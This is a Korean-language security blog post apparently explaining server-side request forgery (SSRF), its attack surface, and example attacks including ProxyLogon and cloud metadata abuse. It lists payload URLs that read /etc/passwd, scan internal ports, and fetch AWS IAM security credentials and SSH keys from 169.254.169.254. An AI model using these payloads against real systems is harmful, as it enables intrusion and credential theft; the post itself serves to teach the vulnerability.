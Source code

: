 ```yaml
---
layout: single
title: Servcer Side Requests Forgery (SSRF)
categories: Web-vuln
tag: [Servcer Side Requests Forgery, SSRF, web, web vulnerability, injection]
toc: true
author_profile: false
---
```


# SSRF 취약점이란?

> SSRF는 클라이언트측의 입력값을 위조시켜 위조된 HTTP 요청을 보내, 일반적으로 외부에서 접근이 불가능한 **<u style="color:red;">서버 내부망에 접근(Access)</u>** 하여, 데이터 유출 및 서버의 기밀성, 가용성, 무결성을 파괴한다. SSRF 의 경우 CSRF 공격과 유사하지만, 공격이 이루어지는 부분이 클라이언트측이냐 서버측이냐의 차이점이 존재한다. 

💡 **<u>SSRF 공격이 성공적으로 Exploit 될 경우 추가 공격으로 이루어지므로, 피해가 크다.</u>** 
{: .notice--primary} 

# 어떻게 발생하는가?
모든 클라이언트측의 요청에 응답을 한 서버에서 다루기에는 무리가 있다. 그러므로 각 서버끼리의 API를 통해 서버끼리 내부적으로 통신을 통해 요청과 응답이 이루어진다. 이때 접근 가능한 내부 IP를 통해 이루어지므로 SSRF 의 경우 루프백(Loopback) 주소인 127.0.0.1 을 사용하여 공격이 주로 이루어진다.

# 공격 표면
주로 URL을 통해 HTTP 요청과 응답에 URL에 관련된 정보가 있을 경우 SSRF 의 잠재적 공격 표면이 될 수 있으며, 특정 웹 사이트의 정보를 불러들어 오는 부분을 유심히 봐야한다.
하지만 외에도 다른 서비스로의 요청을 하는 기능에서도 많이 발견되고 있다.

> SSRF 의 취약점 판별은 OAST를 통한 out-of-band 기술을 통해 쉽게 파악할 수 있다. OAST를 통해 외부로의 접점을 확인할 수 있으며, 외부로의 통신이 막혀 있다면, loaclhost, 사설 IP등을 호출하여 접근 가능 여부를 파악할 수 있다.

특히나 SSRF 공격의 경우, DMZ 뒤쪽에서 동작하기에, ACL 등 보안정책을 우회할 수 있다.
<u sytle="color:red;">보통 SSRF의 경우 서버단에서는 허용된 IP에 대해서만 화이트 리스트 기반을 통해서만 특정 서비스로의 요청이 실행된다.</u>

# 공격 유형
SSRF 를 활용한 공격 방식은 크게 3가지로 분류할 수 있다.
## Port Scan 및 내부 시스템 파일 탈취

<div class="notice">
    SSH 서비스 포트를 스캔할 시 file?=http//[IP]:22  구문 사용<br><br>

    [리눅스/유닉스]
<br>
    file?=http://file:///etc/passwd
<br>
    -- 허용하는 URL 스키마를 사용하여 접근 --
<br>
  <h4 style="color:red;">SSRF 의 경우 프로토콜에 대한 제한을 받지 않기때문에 FTP, SMTP, … 등 과 URI 스킴이 상용 가능하다.</h4>
</div>

## 2. Porxy Logon 기반 SSRF
2021년 CVE에 등록된 공개 취약점인 MS Exchange SSRF 를 활용
1. X-BEResoucrce 쿠키 변조를 통해 내부 서버 리소스 접근 가능

💡 **<u>X-BEResource는 Microsoft Exchange 서버에서 사용되는 특별한 HTTP 헤더이며, 이 헤더는 Exchange 서버의 원격 프로시저 호출(RPC) 기능에 대한 액세스를 관리하는데 사용된다.</u>** 
{: .notice--primary} 

2. /etc/proxyLogon.ecp 파일을 호출하여, 강제로 세션 연결이 가능한 proxyLogon을 이용해 별도의 인증 없이 공격자와 Exchange server와 HTTP연결 수행

> 해당 방법은 CVE-2021-26855 를 통해 자세하게 확인 가능하다.

## AWS 클라우드 기반 SSRF

💡 **<u>AWS 외에도 GCP, Azre, Digital Ocean등 public cloud를 사용하는 경우 Metadata API 로의 접근을 통해 instance에 대한 정보를 얻거나 중요한 키 값을 얻어 시스템을 탈취할 수 있다.u>** 
{: .notice--primary} 

<div class="notice">
  [AWS]<br>
# 169.254.169.254<br>
http://169.254.169.254/latest/user-data<br>
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]<br>
http://169.254.169.254/latest/meta-data/<br>
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]<br>
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance<br>
http://169.254.169.254/latest/meta-data/ami-id<br>
http://169.254.169.254/latest/meta-data/reservation-id<br>
http://169.254.169.254/latest/meta-data/hostname<br>
http://169.254.169.254/latest/meta-data/public-keys/<br>
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key<br>
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key<br>
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy<br>
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access<br>
http://169.254.169.254/latest/dynamic/instance-identity/document<br>
<br>
# instance-data<br>
http://instance-data/latest/meta-data<br>
http://instance-data/latest/meta-data/hostname<br>
http://instance-data/latest/meta-data/public-keys/
</div>

대표적으로 AWS의 Metadata API로의 접근 경로이다. 이 외에 다양한 API는 아래 링크에서 
확인이 가능하다.    
[참조 링크]: (https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#ssrf-url-for-cloud-instances)